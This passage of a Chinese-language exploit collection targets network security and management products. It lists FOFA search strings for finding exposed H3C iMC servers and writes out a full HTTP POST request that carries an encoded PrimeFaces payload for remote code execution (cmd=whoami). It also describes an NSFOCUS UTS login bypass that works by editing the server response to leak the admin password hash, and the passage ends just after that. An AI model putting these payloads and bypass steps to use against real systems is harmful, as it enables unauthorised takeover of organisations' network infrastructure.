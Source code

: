 FOFA：

```
"/imc/javax.faces.resource/images/login_logo_h3c.png.jsf?ln=primefaces-imc-new-webui"
```

```
body="/imc/javax.faces.resource/images/login_help.png.jsf?ln=primefaces-imc-new-webui"
```

```
body="iMC来宾接入自助管理系统"
```

##### 远程代码执行

```
POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 1567

pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
```

## 二、网络检测与响应

### 0x01 蜜罐

### 0x02 IDS

#### 绿盟 UTS 综合威胁探针

##### 管理员任意登录

输入 admin/任意密码，点击登录。更改响应包，将 {"status":false,...} 中的 false 改为 true，此时，响应包将泄露 admin 用户密码的 md5 值。

利用 md5 值登录页面：
